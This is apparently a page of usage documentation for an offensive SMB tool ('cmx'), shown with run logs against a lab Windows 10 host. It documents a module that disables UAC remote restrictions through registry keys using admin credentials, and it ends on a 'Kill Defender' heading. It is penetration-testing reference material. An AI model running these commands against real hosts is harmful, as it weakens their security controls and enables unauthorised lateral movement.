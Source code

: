 ```
Apr.03.20 15:33:52  SMB      192.168.0.150 WIN10TEST             LocalAccountTokenFilterPolicy and/or FilterAdministratorToken
Apr.03.20 15:33:52  SMB      192.168.0.150 WIN10TEST
Apr.03.20 15:33:52  SMB      192.168.0.150 WIN10TEST    LocalAccountTokenFilterPolicy configured to allow remote connections with high integrity access tokens!
```


### Fix UAC

|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | true        | false       | true       |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}

This modifies registry keys pertaining to UAC.

### Command Syntax  
`cmx smb TARGET -u Username -p Pass -fix-uac`

```
# cmx smb 192.168.0.150 -u IEUser -p Passw0rd\! --local-auth -fix-uac
Apr.03.20 15:36:38  SMB      192.168.0.150 WIN10TEST [*] Windows 10.0 Build 17763 x64 (domain:WIN10TEST) (signing:False) (SMBv:3.0)
Apr.03.20 15:36:38  SMB      192.168.0.150 WIN10TEST [+] WIN10TEST\IEUser:Passw0rd! (Pwn3d!)
Apr.03.20 15:36:39  SMB      192.168.0.150 WIN10TEST    EnableLUA Key Set!
Apr.03.20 15:36:39  SMB      192.168.0.150 WIN10TEST    LocalAccountTokenFilterPolicy Key Set!
```
after the change, getting status
```
# cmx smb 192.168.0.150 -u IEUser -p Passw0rd\! --local-auth -uac-status
Apr.03.20 15:37:10  SMB      192.168.0.150 WIN10TEST [*] Windows 10.0 Build 17763 x64 (domain:WIN10TEST) (signing:False) (SMBv:3.0)
Apr.03.20 15:37:10  SMB      192.168.0.150 WIN10TEST [+] WIN10TEST\IEUser:Passw0rd! (Pwn3d!)
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST    UAC Status:
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST        enableLua = 0
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST        LocalAccountTokenFilterPolicy = 1
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST        FilterAdministratorToken key does not exist!
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST    UAC Analysis:
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST    High integrity access available to any member of the local admins group
Apr.03.20 15:37:12  SMB      192.168.0.150 WIN10TEST               using plaintext credentials or password hashes!
```



------------------------------------------------------------------------
# Kill Defender
